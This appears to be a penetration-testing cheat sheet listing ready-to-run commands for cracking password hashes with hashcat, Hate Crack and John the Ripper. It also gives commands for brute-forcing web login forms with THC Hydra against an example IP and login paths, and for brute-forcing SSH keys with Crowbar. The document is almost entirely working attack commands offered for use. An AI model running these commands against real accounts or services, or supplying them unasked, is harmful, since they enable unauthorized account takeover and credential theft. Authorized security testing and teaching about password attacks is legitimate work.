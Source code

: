# Cracking Passwords & More
======

## Hash Cracking
------
#### Hashcat w/Wordlist
.\hashcat64.exe -m 1000 C:\Users\Cary\Desktop\hash -o C:\path\to\hash E:\path\to\wordlist.txt
#### Hate Crack (TrustedSec)
python ../hate_crack/hate_crack.py C:\path\to\hash 1000
#### John The Ripper (JrR)
john passwd.hash
#### John Wordlist
john passwd.hash --wordlist=rockyou.txt

## Hashcat
------
#### Hashcat (wordlist)
hashcat64.exe -m 100 C:\path\to\hashes -o C:\path\to\outfile E:\path\to\wordlist
#### Hashcat (mask attack / 6 character)
hashcat64.exe -m 0 C:\path\to\hash -o C:\path\to\outfile -a 3 -1 ?a ?1?1?1?1?1?1
#### Hashcat (rules)
hashcat  -m 1000 hash words.txt -w3 -O -r rule.rule

## Brute Forcing
------
#### THC Hydra

#### HTTPS form post
hydra <ip-address> https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -l test -P /usr/share/wordlists/rockyou.txt -t 16 -w 30 -o hydra.out.txt -vV
#### HTTP with user specified
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 32 192.168.0.150 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -vV
#### Crowbar (Brute SSH Keys)
crowbar -b sshkey -s <ip>/32 -U userlist -k keys/debian-ssh/uncommon_keys/rsa1/4096/